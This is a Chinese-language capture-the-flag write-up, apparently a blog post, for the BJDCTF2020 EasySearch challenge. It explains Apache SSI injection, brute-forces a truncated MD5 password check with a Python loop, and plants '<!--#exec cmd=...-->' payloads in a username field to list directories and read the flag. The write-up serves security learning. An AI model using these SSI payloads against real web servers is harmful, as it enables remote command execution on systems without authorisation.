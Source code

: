 # [BJDCTF2020]EasySearch Apache SSI漏洞

这道题有点意思 是SSI漏洞

照样 我们先熟悉SSI漏洞是什么

## SSI

服务端包含

```less
SSI 提供了对现有html增加动态的效果
 
是嵌入 html的指令 只有网页被调用了 才会执行
 
允许执行命令 所以会造成rce
```

## 使用条件

```less
当文件上传的时候 无法上传php
 
但是服务器开启了 SSI CGI支持
 
就可以通过 shtml文件上传
 
 
 Web 服务器已支持SSI（服务器端包含）
   
 
 Web 应用程序未对相关SSI关键字做过滤
    
 
 Web 应用程序在返回响应的HTML页面时，嵌入了用户输入
```

## 格式

```xml
<!--#exec cmd="ls /" -->
```

了解完了漏洞原理 我们开始做题

## 做题



<img src="https://i-blog.csdnimg.cn/blog_migrate/8e2548ff4aadc499849b49687d7bf816.png" alt="" style="max-height:356px; box-sizing:content-box;" />


打开网站 登入界面 我们会想到弱口令无果 sql注入 不存在注入点 robots.txt 不存在

于是我们看看是不是存在其他文件

我们使用dirsearch扫 无果 奇了怪了 完全不行啊

后面使用另一个工具才扫出来备份文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/a70a96c66a91c5b7eff9e5809d9b9854.png" alt="" style="max-height:66px; box-sizing:content-box;" />


```cobol
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

直接代码审计 这里其实就两块

### 第一部分

```cobol
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6))
```

通过MD5加密后的值需要前6位和admin变量中一样

直接python代码

```scss
import hashlib
 
for i in range(100000000):
    hashe=hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if hashe[0:6]=="6d0bc1":
        print(i,hashe)
```

```cobol
2020666 6d0bc1153791aa2b4e18b4f344f26ab4
2305004 6d0bc1ec71a9b814677b85e3ac9c3d40
```

随便选一个 作为密码登入即可

### 第二部分

```php
 $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        }
```

创建一个 shtml后缀 对内容进行写入 内容是 username的内容 写入完成输出 header error

这里就是用上面的SSI 漏洞来做了

返回username

抓包 然后写入代码

```xml
<!--#exec cmd="ls /" -->
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/685d0c368560d6dfe87bb6867b17cd97.png" alt="" style="max-height:428px; box-sizing:content-box;" />


然后访问右边的路径



<img src="https://i-blog.csdnimg.cn/blog_migrate/f37bf74ab39f48a793d444e719291744.png" alt="" style="max-height:280px; box-sizing:content-box;" />


实现了rce

现在找flag就行了

```xml
<!--#exec cmd="ls ../" -->
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d321c36636ae1192b119fad7fb943181.png" alt="" style="max-height:320px; box-sizing:content-box;" />


```xml
<!--#exec cmd="cat ../f*" -->
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/003d245a0507eab16ec0f0e43d932da1.png" alt="" style="max-height:312px; box-sizing:content-box;" />


学到了学到了 SSI 漏洞